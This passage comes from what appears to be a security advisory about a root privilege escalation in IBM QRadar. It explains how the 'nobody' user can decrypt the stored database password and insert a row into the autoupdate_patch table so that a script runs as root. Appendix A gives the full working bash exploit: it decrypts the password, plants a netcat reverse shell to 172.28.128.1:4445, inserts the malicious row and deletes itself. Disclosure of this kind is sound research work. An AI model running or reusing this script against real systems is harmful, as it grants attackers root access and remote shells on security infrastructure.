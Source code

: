 Luckily, the “nobody” user can access the database – after all, the Java and PHP server processes need to access it, and they run as “nobody”. Because the /tmp directory cannot be accessed by the “nobody” user, we cannot rely on password-less local socket connection to the database; so we have to use TCP/IP, which means we need the database password. The password is in /opt/qradar/conf/config_user.xml (readable by “nobody”) and it is stored encrypted, but can be decrypted using the code of a built-in shell script.
So once we have the database password, all we need to do is to add an entry to that table to a script we control (for example /store/configservices/staging/updates/owned.sh), and within one minute it will be run as root:

`PGPASSWORD=$PASSWORD /usr/bin/psql -h localhost -U qradar qradar -c "insert into autoupdate_patch values ('owned.sh',558,'minor',false,1337,0,'',1,false,'','','',false)"`

The exploit script that does this privilege escalation and returns a root reverse shell to 172.28.128.1:4445 is shown as Appendix A. This file can be written using a combination of vulnerabilities #1 and #2 to complete the full exploit chain, allowing an unauthenticated user to achieve root code execution remotely.

**Appendix A**<br>
```bash
#!/bin/bash
# our reverse shell that will be executed as root
cat <<EOF > /store/configservices/staging/updates/superowned
#!/bin/sh
nc -e /bin/sh 172.28.128.1 4445
EOF
### below is adapted from /opt/qradar/support/changePasswd.sh
[ -z $NVA_CONF ] && NVA_CONF="/opt/qradar/conf/nva.conf"
NVACONF=`grep "^NVACONF=" $NVA_CONF 2> /dev/null | cut -d= -f2`
FRAMEWORKS_PROPERTIES_FILE="frameworks.properties"
FORENSICS_USER_FILE="config_user.xml"
FORENSICS_USER_FILE_CONFIG="$NVACONF/$FORENSICS_USER_FILE"
# get the encrypted db password from the config
PASSWORDENCRYPTED=`cat $FORENSICS_USER_FILE_CONFIG | grep WEBUSER_DB_PASSWORD | grep -o -P '(?<=>)([\w\=]*)(?=<)'`
QVERSION=$(/opt/qradar/bin/myver | awk -F. '{print $1$2$3}')
AU_CRYPT=/opt/qradar/lib/Q1/auCrypto.pm
P_ENC=$(grep I_P_ENC ${AU_CRYPT} | cut -d= -f2-)
P_DEC=$(grep I_P_DEC ${AU_CRYPT} | cut -d= -f2-)
#if 7.2.8 or greater, use new method for hashing and salting passwords
if [ $QVERSION -gt 727 ]
then
    PASSWORD=$(perl <(echo ${P_DEC} | base64 -d) <(echo ${PASSWORDENCRYPTED}))
			[ $? != 0 ] && echo "ERROR: Unable to decrypt $PASSWORDENCRYPTED" && exit 255
else
		AESKEY=`grep 'aes.key=' $NVACONF/$FRAMEWORKS_PROPERTIES_FILE | cut -c9-`
    PASSWORD=`/opt/qradar/bin/runjava.sh -Daes.key=$AESKEY com.q1labs.frameworks.crypto.AESUtil decrypt $PASSWORDENCRYPTED`
		[ $? != 0 ] && echo "ERROR: Unable to decrypt $PASSWORDENCRYPTED" && exit 255
fi
PGPASSWORD=$PASSWORD /usr/bin/psql -h localhost -U qradar qradar -c "insert into autoupdate_patch values ('superowned',558,'minor',false,1337,0,'',1,false,'','','',false)"
# delete ourselves
(sleep 2 && rm -- "$0") &
```
